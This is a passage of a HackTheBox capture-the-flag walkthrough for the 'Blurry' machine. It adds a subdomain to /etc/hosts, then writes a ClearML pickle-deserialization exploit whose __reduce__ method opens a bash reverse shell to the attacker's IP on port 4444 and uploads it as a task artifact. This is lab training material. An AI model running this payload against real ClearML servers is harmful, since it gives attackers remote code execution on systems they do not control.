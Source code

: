 If we look attentively at the configuration we pasted, we will notice that this configuration contains a new subdomain called api.blurry.htb that we did not enumerate above. Let's add this domain to our /etc/file before we continue the exploitation process.
```bash
┌──(pentester㉿kali)-[~/…/HackthBox/Machines/Blurry/Misc Files]
└─$echo "10.10.11.19\tapi.blurry.htb" | sudo tee -a /etc/hosts
10.10.11.19     api.blurry.htb
```

To exploit this vulnerability we need a project name. Our Clearml instance seems to have already made projects so let's use one of them.
![](/assets/img/posts/walthrough/hackthebox/2024-09-23-blurry/existing-project.png)

Now, we can copy the script found on the page above and replace the IP address, Listening port, and project name.
```bash
┌──(pentester㉿kali)-[~/…/HackthBox/Machines/Blurry/Misc Files]
└─$ cat << EOF > clearml-exploit.py
heredoc> import pickle
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        return (os.system, ('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.2/4444  0>&1"',))

command = RunCommand()

task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"])
task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")
heredoc> EOF        
```
